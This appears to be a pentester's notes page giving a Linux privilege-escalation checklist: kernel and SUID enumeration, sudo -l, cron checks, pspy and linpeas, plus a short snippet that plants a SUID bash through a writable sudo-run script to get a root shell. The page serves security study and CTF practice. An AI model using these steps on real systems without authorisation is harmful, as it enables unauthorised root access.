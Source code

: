 # Checklist (priv esc)

Note: Linux page has few notes if you missed it

{% content-ref url="./" %}
[.](./)
{% endcontent-ref %}



1. Check linux OS version
2. Check kernel version (`uname -a`)
3. Check sudo binary (`find / -perm -4000 -ls >2/dev/null`)
4. `sudo -l` to check if any sudo bit is enabled for that user
   1. check : [https://gtfobins.github.io/](https://gtfobins.github.io/) for sudo binary exploits
5. check cron jobs (`/etc/cronjobs`)
   1. well if you cant check root's cronjob directly ....... pspy might help
   2. run `grep -nrw /dir/to/search/in -e "/path/of/script_or_file 2>/dev/null"` to check if any file runs/uses the file.
6. run pspy64 script ([https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy))
7. run linpeas ([https://github.com/carlospolop/PEASS-ng/releases/tag/20231203-9cdcb38f](https://github.com/carlospolop/PEASS-ng/releases/tag/20231203-9cdcb38f))



### Edit access on sudo script

```bash
echo 'chmod u+s /bin/bash' > /path/to/script/file.sh

#then type
/bin/bash -p #to get root shell
```





